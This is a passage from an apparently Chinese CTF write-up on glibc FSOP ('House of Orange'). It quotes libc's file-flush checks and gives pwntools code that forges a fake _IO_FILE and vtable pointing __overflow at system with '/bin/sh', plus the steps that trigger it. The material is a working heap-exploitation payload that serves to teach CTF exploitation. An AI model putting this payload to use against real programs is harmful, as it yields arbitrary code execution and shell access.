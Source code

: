 2. 伪造`_IO_FILE`绕过一些检查:
```c
while (fp != NULL)
    {

      ......
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;

      ......
    }
```
> - `fp->_mode > 0`
> - `fp->_IO_write_ptr > fp->_IO_write_base`
> - `fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base`
```python

data = "\x00"*0x2b0
payload ="/bin/sh\x00" + p64(0x61) + p64(libc_addr) + \
p64(_IO_list_all) + p64(2) + p64(3) # 3 > 2(fp->_IO_write_ptr > fp->_IO_write_base)
'''
由于我们伪造的_wide_data = 0, fp->_wide_data->_IO_write_ptr >
fp->_wide_data->_IO_write_base 相当于　fp->_IO_write_ptr > fp->_IO_write_base
'''
payload = payload.ljust(0xc0, "\x00")
payload += p64(0xffffffffffffffff) # _mode > 0
payload = payload.ljust(0xd8, "\x00")

vtable = heap_address + 0x2b0 + 0xd8 + 0x8
payload += p64(vtable)
```
3. `fake vtable`
```python
payload += p64(0) * 2 + p64(1) + p64(system) #__overflow在第四位个位置
```
**3. 触发**
```python
p.recvuntil('Your choice :')
p.sendline('1')
p.recvuntil('Size of page :')
p.sendline(str(0x10))
```
### 一个疑问
> 问题: 请问`fake FILE`是如何链入到进程中的?
>> 这就要用到上面提到的`0x61`, 这个可不是随便写的一个值.`_chain`是`_IO_FILE`第十四个字段, 而`0x61chunk`从`unsorted bin`进入`small bin`时, 正好将`0x61`写入这第十四个字段.
